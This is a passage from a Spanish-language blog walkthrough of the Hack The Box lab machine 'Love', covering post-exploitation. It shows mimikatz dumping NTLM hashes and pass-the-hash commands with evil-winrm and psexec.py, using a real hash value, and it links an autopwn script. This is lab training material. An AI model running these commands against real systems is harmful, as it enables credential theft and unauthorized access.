![344flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344flags.png)

Y listones, hemos terminado la máquina, linda, lindo camino.

...

He creado un script **autopwn**:

> [AutopwnLove.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/autopwnLove.py).

El cual efectúa la explotación e instalación del paquete `.msi` para generarnos una Shell en el propio script, el script levantara un servidor web por 10 segundos el cual usaremos para subir el paquete a la máquina (que si no le especificas uno el programa lo crea):

![344bash_autopwn_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_autopwn_done.png)

---

## Post Explotación: Extracción hashes NTLM [#](#post-privesc-ntlm-hashes) {#post-privesc-ntlm-hashes}

Algo que podemos hacer es jugar con [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki) (herramienta que entre muchas cosas nos ayuda a robar datos de identificación de usuarios) para extraer los hashes [**NTLM**](https://www.ionos.es/digitalguide/servidores/know-how/ntlm/) para hacer el famoso ataque **PassTheHash**:

> Este ataque consiste en capturar las passwords que se encuentran almacenadas en la memoria RAM. En realidad, no se capturan las passwords como tal, sino que se captura el hash de cada password. [Qué es Mimikatz?](https://zybersec.es/que-es-mimikatz-y-por-que-nos-tenemos-que-preocupar-si-lo-detectamos-en-nuestra-red).

> Si una persona captura el hash de la password, puede hacer exactamente lo mismo que si tuviera la password original.

Perfectisimo, pues subamos **mimikatz** a la máquina víctima, lo podemos descargar del propio [repositorio](https://github.com/gentilkiwi/mimikatz) en la parte [**Releases**](https://github.com/gentilkiwi/mimikatz/releases)...

Una vez tengamos el binario `mimikatz.exe`, lo subimos y ejecutamos:

```powershell
c:\Users\Administrator\Videos>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 31 2021 00:08:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # 
```

Ahora, si queremos intentar ver las contraseñas en texto plano (o al menos los hashes **NTLM**) escribimos:

```powershell
mimikatz # sekurlsa::logonpasswords
```

Nos respondería con info de los usuarios, en este caso de **Phoebe** y **Administrator**:

**Phoebe:**

![344bash_win_mimi_lsa_phoebe](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_win_mimi_lsa_phoebe.png)

**Administrator:**

![344bash_win_mimi_lsa_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_win_mimi_lsa_admin.png)

Vemos los hashes **NTLM** pero no las contraseñas en texto plano, aunque nos da igual, ya que podemos hacer mucho con simplemente los hashes, como por ejemplo entablarnos una **PowerShell** con ayuda de **evil-winrm** o **psexec.py** como cualquiera de los dos usuarios:

### Pass-The-Hash - evil-winrm [🔗](#post-privesc-pth-winrm) {#post-privesc-pth-winrm}

Por ejemplo para el usuario **Phoebe** tomaríamos su hash y escribiríamos:

```bash
❱ evil-winrm -i 10.10.10.239 -u 'phoebe' -H a9ccd3a011ceb45b44ce6f6b40122268
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_evilwinrm_pth_phoebe.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y haríamos lo mismo con el usuario **Administrator** (con el que realmente no nos sabemos su contraseña):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_evilwinrm_pth_admin.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

😜 🥴 😵

### Pass-The-Hash - psexec.py [🔗](#post-privesc-pth-psexec) {#post-privesc-pth-psexec}

Es igual de sencillo, solo que esta vez nos lo permitió solo con el usuario **Administrator**:

**Phoebe**:

```bash
❱ psexec.py -hashes :a9ccd3a011ceb45b44ce6f6b40122268 Phoebe@10.10.10.239
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.239.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

**Administrator**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_psexec_pth_admin.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

Y así conseguiríamos una Shell sin necesidad de contraseñas e incluso sin necesidad de explotación alguna, simplemente con el hash **NTLM** identificador del usuario (:

Podemos hacer más cositas guapas con **mimikatz**, pero eso ya se los dejo de investigación :P

...

No me llamo tanto la atención el encontrar la contraseña de **Phoebe** en una página web así de la nada, pero de resto estuvo lindo el camino.

Y una vez más están volviendo a poner máquinas que si son sencillitas, esas que incentivan a la gente y no les hace explotar la cabeza tan deprisa jajaj, así que gracias **HTB**.

La escalada no la había hecho y me pareció interesante, no sé que tan frecuente se ve eso en realidad, pero bueno, existe...

Bueno, nos leeremos después, a seguir disfrutando de la vida y a seguir rompiendo todo!! Bless <3